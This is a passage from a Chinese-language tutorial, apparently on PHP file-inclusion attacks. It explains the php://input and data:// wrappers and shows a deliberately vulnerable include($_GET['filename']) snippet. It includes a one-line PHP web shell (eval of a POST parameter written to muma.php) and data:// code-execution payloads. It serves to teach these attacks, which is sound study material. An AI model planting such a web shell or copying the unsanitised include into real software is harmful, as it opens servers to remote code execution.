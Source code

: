     ```php
    # 注意使用 php://input 的时候必须开启 allow_url_include
    <?php
      highlight_file(__FILE__);
      include($_GET['filename']);
    ?>
    ```

    ![img](../.gitbook/assets/image10.jpeg)

    当我们有写入操作的时候，可以直接写入一句话木马

    ```php
    <?php file_put_contents('muma.php', '<?php @eval($_POST[cmd]);');
    ```

### data://

* **条件**：
  * allow\_url\_fopen：on
  * allow\_url\_include： on
* **作用**：自 `PHP>=5.2.0` 起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
*   **用法**：

    ```php
    data://text/plain,<?php phpinfo();
    data://text/plain;base64,[Base64编码后的代码]
    ```
*   **示例**：
